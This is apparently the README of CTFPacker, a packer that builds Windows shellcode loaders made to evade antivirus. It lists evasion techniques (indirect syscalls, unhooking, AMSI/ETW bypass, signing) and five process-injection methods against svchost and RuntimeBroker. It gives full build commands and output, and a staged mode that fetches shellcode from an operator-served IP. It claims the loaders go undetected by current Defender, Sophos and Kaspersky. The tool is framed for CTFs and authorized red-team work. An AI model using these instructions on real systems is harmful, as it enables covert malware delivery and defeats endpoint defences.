


# CTFPacker

<p align="center">
  
</p> 

> [!TIP]
> Did CTFPacker help you with a penetration test engagement or in passing a certification exam? If so, please consider giving it a star ⭐! Your support would greatly help the project and motivate me to add more features or even rework it entirely into a much more capable packer!

## Table-Of-Contents

- [CTFPacker](#ctfpacker)
  * [Goal](#goal)
  * [General Information](#general-information)
  * [Evasion Features](#evasion-features)
  * [Installation](#installation)
  * [Usage](#usage)
    + [GUI](#gui)
    + [Format option](#format-option)
    + [Staged](#staged)
    + [Stageless](#stageless)
  * [To-Do](#to-do)
  * [Detections](#detections)
  * [Credits - References](#credits---references)

## Goal

This repository has been created to facilitate AV evasion during CTFs and/or pentest & red team exams. The goal is to focus more on pwning rather than struggeling with evasion !

Check out my blog post for more infos: [Evade Modern AVs in 2025](https://mochabyte.xyz/2025/06/11/evade-modern-avs-in-2025/)

## General Information

>[!CAUTION]
>This tool is designed for authorized operations only. I AM NOT RESPONSIBLE FOR YOUR ACTIONS. DON'T DO BAD STUFF.

>[!NOTE]
>- The techniques used in the loader are nothing new. The loader generated from this packer will probably NOT evade modern AVs / EDRs. Do not expect that or anything ground breaking.
>- Most of the evasion techniques used here are NOT from me. I just added a bunch of known stuff together and it is enough for CTFs !
>- Depending on the interest shown to this project, I might add some techniques from my own research and maybe expand/rewrite the packer entirely.

## Evasion Features

- Indirect Syscalls via **Hell's Hall** (PEB walk + CRC32b hashing, obfuscated NASM stub with XOR encoding & junk ops)
- API Hashing
- NTDLL unhooking via Known DLLs technique
- Custom GetProcAddr & GetModuleHandle functions
- Custom AES-128-CBC mode encryption & decryption
- Multiple injection techniques (see table below)
- Possibility to choose between staged or stageless loader
- "Polymorphic" behavior with the `-s` argument
- Entropy reduction via embedded English text padding (`-er`)
- Optional HTTPS transport for staged payloads

### Injection Methods

| Flag | Name | Type | Target | How it works |
|------|------|------|--------|--------------|
| `apc` | EarlyBird APC | Remote — spawned process | `RuntimeBroker.exe` / `svchost.exe` | Spawns the target in a suspended state, queues an APC to the main thread pointing at injected shellcode, then resumes it |
| `copyfile2` | CopyFile2 Callback | **Self-injection** (local) | Own process | Uses the `CopyFile2` progress-callback mechanism to execute shellcode inside the current process — no remote handle required |
| `tp_direct` | PoolParty TP_DIRECT | Remote — existing process | `RuntimeBroker.exe` / `svchost.exe` | Hijacks the target's `IoCompletion` handle, writes shellcode into the target's memory, crafts a `TP_DIRECT` struct and queues it via `ZwSetIoCompletion` — the target's thread pool dispatches the callback |
| `wf_overwrite` | PoolParty WF Overwrite | Remote — existing process | `RuntimeBroker.exe` / `svchost.exe` | Hijacks the target's `TpWorkerFactory` handle, overwrites `StartRoutine` in the target's memory with the shellcode via `WriteProcessMemory`, then bumps the minimum thread count to force a new worker thread |
| `timerqueue` | Timer Queue Callback | **Self-injection** (local) | Own process | Allocates RWX memory, copies shellcode, and registers it as a one-shot `CreateTimerQueueTimer` callback — the thread pool fires it after 100 ms; main thread sleeps indefinitely |

> [!NOTE]
> `apc` spawns a **new** instance of the target process; `tp_direct` and `wf_overwrite` require the target process to **already be running**; `copyfile2` and `timerqueue` are self-injection and don't touch any other process.

## Installation

Just run the install script:

```bash
cd CTFPacker
sudo bash install.sh

# To remove it
sudo bash uninstall.sh
```

That's it ! This will install the python package via pipx, set up a `.desktop` launcher and copy the logo to `~/.local/share/icons/`. You can now use `ctfpacker` and `ctfpacker-gui` globally.


## Usage

General usage:
```
usage: main.py [-h] {staged,stageless} ...

CTFPacker

positional arguments:
  {staged,stageless}  Staged or Stageless Payloads
    staged            Staged
    stageless         Stageless

options:
  -h, --help          show this help message and exit
```

Staged:

```
usage: main.py staged [-h] -p PAYLOAD [-f {EXE,DLL}] [-apc {RuntimeBroker.exe,svchost.exe}]
                      [-inj {apc,copyfile2,tp_direct,wf_overwrite,timerqueue}] -i IP_ADDRESS -po PORT -pa PATH [-o OUTPUT]
                      [--https] [--user-agent USER_AGENT] [-e] [-s] [-er]
                      [-pfx PFX] [-pfx-pass PFX_PASSWORD]

options:
  -h, --help                    show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                                Shellcode to be packed
  -f {EXE,DLL}, --format {EXE,DLL}
                                Format of the output file (default: EXE).
  -apc {RuntimeBroker.exe,svchost.exe}
                                Target injection process (default: RuntimeBroker.exe).
  -inj {apc,copyfile2,tp_direct,wf_overwrite,timerqueue}, --inject-method {apc,copyfile2,tp_direct,wf_overwrite,timerqueue}
                                Injection method: 'apc' (EarlyBird APC), 'copyfile2' (CopyFile2
                                callback), 'tp_direct' (PoolParty TP_DIRECT via IoCompletion),
                                'wf_overwrite' (PoolParty WorkerFactory overwrite), or
                                'timerqueue' (TimerQueue callback self-injection).
                                Default: apc. tp_direct/wf_overwrite require an existing target process.
  -i IP_ADDRESS, --ip-address IP_ADDRESS
                                IP address from where your shellcode is gonna be fetched.
  -po PORT, --port PORT         Port from where the HTTP connection is gonna fetch your shellcode.
  -pa PATH, --path PATH         Path from where your shellcode is gonna be fetched.
  -o OUTPUT, --output OUTPUT    Output path where the loader is gonna be saved.
  --https                       Use HTTPS instead of HTTP for downloading the shellcode.
  --user-agent USER_AGENT       Custom User-Agent string for HTTP/HTTPS requests.
  -e, --encrypt                 Encrypt the shellcode via AES-128-CBC.
  -s, --scramble                Scramble the loader's functions and variables.
  -er, --entropy-reduction      Reduce binary entropy by embedding English text padding.
  -pfx PFX, --pfx PFX           Path to the PFX file for signing the loader.
  -pfx-pass PFX_PASSWORD, --pfx-password PFX_PASSWORD
                                Password for the PFX file.

Example usage: python main.py staged -p shellcode.bin -i 192.168.1.150 -po 8080 -pa '/shellcode.bin' -o shellcode -inj apc -e -s --https -pfx cert.pfx -pfx-pass 'password'
```

Stageless:

```
usage: main.py stageless [-h] -p PAYLOAD [-f {EXE,DLL}] [-apc {RuntimeBroker.exe,svchost.exe}]
                         [-inj {apc,copyfile2,tp_direct,wf_overwrite,timerqueue}] [-e] [-s] [-er]
                         [-pfx PFX] [-pfx-pass PFX_PASSWORD]

options:
  -h, --help                    show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                                Shellcode to be packed
  -f {EXE,DLL}, --format {EXE,DLL}
                                Format of the output file (default: EXE).
  -apc {RuntimeBroker.exe,svchost.exe}
                                Target injection process (default: RuntimeBroker.exe).
  -inj {apc,copyfile2,tp_direct,wf_overwrite,timerqueue}, --inject-method {apc,copyfile2,tp_direct,wf_overwrite,timerqueue}
                                Injection method: 'apc' (EarlyBird APC), 'copyfile2' (CopyFile2
                                callback), 'tp_direct' (PoolParty TP_DIRECT via IoCompletion),
                                'wf_overwrite' (PoolParty WorkerFactory overwrite), or
                                'timerqueue' (TimerQueue callback self-injection).
                                Default: apc. tp_direct/wf_overwrite require an existing target process.
  -e, --encrypt                 Encrypt the shellcode via AES-128-CBC.
  -s, --scramble                Scramble the loader's functions and variables.
  -er, --entropy-reduction      Reduce binary entropy by embedding English text padding.
  -pfx PFX, --pfx PFX           Path to the PFX file for signing the loader.
  -pfx-pass PFX_PASSWORD, --pfx-password PFX_PASSWORD
                                Password for the PFX file.

Example usage: python main.py stageless -p shellcode.bin -e -s -inj copyfile2 -pfx cert.pfx -pfx-pass 'password'
```

### GUI

If you installed via pipx or `install.sh`, you can launch the GUI directly or through your desktop app launcher:

```bash
ctfpacker-gui
```

<p align="center">
  
</p> 

The GUI exposes all the same options as the CLI but with real-time build output, a log panel, and a profile system. You can save/load build configurations as named profiles, and export/import them as `.ctfp` files to share across machines.

### Format option

In both cases, staged or stageless, you can choose whether to compile your loader as an EXE or a DLL. To compile it as a DLL, simply append `-f DLL`. By default, it compiles as an EXE, though you can also explicitly specify this using -f EXE (but you don't need to).

The DLL version exports a function called `ctf`. This is the function you need to call to start the exection. 

```powershell
rundll32.exe ctfloader.dll,ctf
```

### Staged

When using the staged "mode", the packer will generate you a .bin file named accordingly to your `-o` arg. With the `-pa` argument, you are actually telling the loader *where* on the websever (basically the path) it should search for that .bin file. So TLDR those two values should usually be the same.

Example:

```powershell
python main.py staged -p "C:\Code\CTFPacker\calc.bin" -i 192.168.2.121 -po 8080 -pa /shellcode.bin -o shellcode -s -pfx cert.pfx -pfx-pass Password


 ▄████▄  ▄▄▄█████▓  █████▒██▓███   ▄▄▄       ▄████▄   ██ ▄█▀▓█████  ██▀███
▒██▀ ▀█  ▓  ██▒ ▓▒▓██   ▒▓██░  ██▒▒████▄    ▒██▀ ▀█   ██▄█▒ ▓█   ▀ ▓██ ▒ ██▒
▒▓█    ▄ ▒ ▓██░ ▒░▒████ ░▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▒███   ▓██ ░▄█ ▒
▒▓▓▄ ▄██▒░ ▓██▓ ░ ░▓█▒  ░▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒▓█  ▄ ▒██▀▀█▄
▒ ▓███▀ ░  ▒██▒ ░ ░▒█░   ▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄░▒████▒░██▓ ▒██▒
░ ░▒ ▒  ░  ▒ ░░    ▒ ░   ▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒░░ ▒░ ░░ ▒▓ ░▒▓░
  ░  ▒       ░     ░     ░▒ ░       ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░ ░ ░  ░  ░▒ ░ ▒░
░          ░       ░ ░   ░░         ░   ▒   ░        ░ ░░ ░    ░     ░░   ░
░ ░                                     ░  ░░ ░      ░  ░      ░  ░   ░
░                                           ░


        Author: mocha
        https://mochabyte.xyz

[i] Staged Payload selected.
[+] Starting the process...
[i] Corresponding template selected..
[+] Template files modified !
[i] Encryption not selected.
[+] Compiling the loader...
[i] Scrambling selected.
[+] Scrambling the loader...
[+] Loader scrambled !
[i] Signing selected.
[+] Signing the loader...
rm -f *.o *.obj ctfloader.exe
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c api_hashing.c -o api_hashing.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c download.c -o download.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c inject.c -o inject.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c main.c -o main.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c unhook.c -o unhook.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c whispers.c -o whispers.o
nasm -f win64   whispers-asm.x64.asm -o whispers-asm.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -o ctfloader.exe api_hashing.o download.o inject.o main.o unhook.o whispers.o whispers-asm.o -Wl,--disable-auto-import -s -lwinhttp -lntdll
Connecting to http://timestamp.sectigo.com
Succeeded
[+] Loader signed !
[+] DONE !
```

With this command, your telling the loader to connect to the `192.168.2.121` IP, at port `8080` and download the `shellcode.bin` file. So you should serve this file via a webserver.

```powershell
C:\Code\CTFPacker\CTF Packer>ls
shellcode.bin

C:\Code\CTFPacker\CTF Packer>python -m http.server 8080
Serving HTTP on :: port 8080 (http://[::]:8080/) ...
```

### Stageless

This is fairly simple. The shellcode will be included into the loader. I recommend you to use the encryption arg `-e`. Otherwise the signature-based detection will likely catch it.

```powershell
C:\Code\CTFPacker>ls
core  custom_certs  main.py  requirements.txt templates

C:\Code\CTFPacker>python main.py stageless -p "C:\Code\CTFPacker\calc.bin" -e -s


 ▄████▄  ▄▄▄█████▓  █████▒██▓███   ▄▄▄       ▄████▄   ██ ▄█▀▓█████  ██▀███
▒██▀ ▀█  ▓  ██▒ ▓▒▓██   ▒▓██░  ██▒▒████▄    ▒██▀ ▀█   ██▄█▒ ▓█   ▀ ▓██ ▒ ██▒
▒▓█    ▄ ▒ ▓██░ ▒░▒████ ░▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▒███   ▓██ ░▄█ ▒
▒▓▓▄ ▄██▒░ ▓██▓ ░ ░▓█▒  ░▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒▓█  ▄ ▒██▀▀█▄
▒ ▓███▀ ░  ▒██▒ ░ ░▒█░   ▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄░▒████▒░██▓ ▒██▒
░ ░▒ ▒  ░  ▒ ░░    ▒ ░   ▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒░░ ▒░ ░░ ▒▓ ░▒▓░
  ░  ▒       ░     ░     ░▒ ░       ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░ ░ ░  ░  ░▒ ░ ▒░
░          ░       ░ ░   ░░         ░   ▒   ░        ░ ░░ ░    ░     ░░   ░
░ ░                                     ░  ░░ ░      ░  ░      ░  ░   ░
░                                           ░


        Author: mocha
        https://mochabyte.xyz

[i] Stageless Payload selected.
[+] Starting the process...
[+] Template files modified !
[i] Encryption selected.
[+] Encrypting the payload...
[+] Payload encrypted and saved into payload[] variable in main.c !
[i] Scrambling selected.
[+] Scrambling the loader...
[+] Loader scrambled !
rm -f *.o *.obj ctfloader.exe
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c api_hashing.c -o api_hashing.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c inject.c -o inject.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c main.c -o main.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c unhook.c -o unhook.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c whispers.c -o whispers.o
nasm -f win64   whispers-asm.x64.asm -o whispers-asm.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -o ctfloader.exe api_hashing.o inject.o main.o unhook.o whispers.o whispers-asm.o -Wl,--disable-auto-import -s -lwinhttp -lntdll
[+] Loader compiled !
[+] DONE !

C:\Code\CTFPacker>ls
core  ctfloader.exe  custom_certs  main.py  requirements.txt  shellcode.bin  templates
```

## To-Do

- [x] Maybe adding a setup.py file to install via pip / pipx
- [x] Other templates with different injection techniques (added CopyFile2 progress callback)
- [x] PyQt6 GUI with build profiles & real-time output
- [x] Adding AMSI / ETW bypass (depends on what injection technique I am going to put here)
- [x] More injection techniques (added PoolParty Variant 1 WorkerFactory overwrite + Variant 7 TP_DIRECT)

## Detections

- Undetected on the latest Windows 11 Defender (2026-03-08, Version 1.445.420.0)
- Undetected on the latest Sophos Home Premium (Version 2024.3.3.1.0)
- Undetected on the latest Kasperky Premium (08.03.2026)

## Credits - References

Most of the code is not from me. Here are the original authors:

```
@ Maldevacademy     - https://maldevacademy.com ; https://github.com/Maldev-Academy/HellHall
@ trickster0        - https://github.com/trickster0/TartarusGate  (indirect syscalls)
@ SaadAhla          - https://github.com/SaadAhla/ntdlll-unhooking-collection
@ VX-Underground    - https://github.com/vxunderground/VX-API/blob/main/VX-API/GetProcAddressDjb2.cpp
@ SafeBreach-Labs   - https://github.com/SafeBreach-Labs/PoolParty (PoolParty thread pool injection)
```

